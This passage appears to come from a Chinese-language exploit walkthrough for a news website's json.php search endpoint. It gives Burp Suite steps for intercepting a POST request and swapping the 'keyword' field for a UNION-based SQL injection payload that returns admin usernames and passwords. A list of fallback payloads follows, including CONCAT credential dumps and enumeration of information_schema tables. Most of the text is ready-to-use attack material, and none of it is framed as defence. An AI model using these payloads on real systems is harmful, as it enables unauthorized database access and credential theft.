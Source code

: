 3. **提交搜索请求**:
   - 在搜索框中输入任意关键词
   - 点击"搜索"按钮

4. **拦截请求**:
   - 在Burp Suite的Proxy选项卡中拦截到POST请求
   - 请求应该发送到json.php，Content-Type为application/json

5. **修改请求载荷**:
   - 找到原始的JSON数据
   - 将keyword的值替换为注入payload:
     ```json
     {
       "id": 0,
       "keyword": "' UNION SELECT 1,password,username,created_at FROM admin WHERE id=1-- -"
     }
     ```

6. **转发请求**:
   - 点击"Forward"按钮，将修改后的请求发送到服务器

7. **分析响应**:
   - 观察返回的HTML内容
   - 应该能看到显示admin用户的密码信息

## 备选注入Payload

如果上述payload不成功，可以尝试以下备选payload：

### 针对news表的字段数量可能不匹配的情况:

```sql
' UNION SELECT 1,password,3,4 FROM admin WHERE id=1-- -
```

```sql
' UNION SELECT 1,2,password FROM admin WHERE id=1-- -
```

### 使用其他字段组合:

```sql
' UNION SELECT 1,CONCAT(username,':',password),3 FROM admin WHERE id=1-- -
```

### 针对特定的列名显示:

```sql
' UNION SELECT 1,CONCAT('用户名:',username,'，密码:',password),CONCAT('创建时间:',created_at) FROM admin WHERE id=1-- -
```

### 针对多表结构:

```sql
' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema='news_db'-- -
```
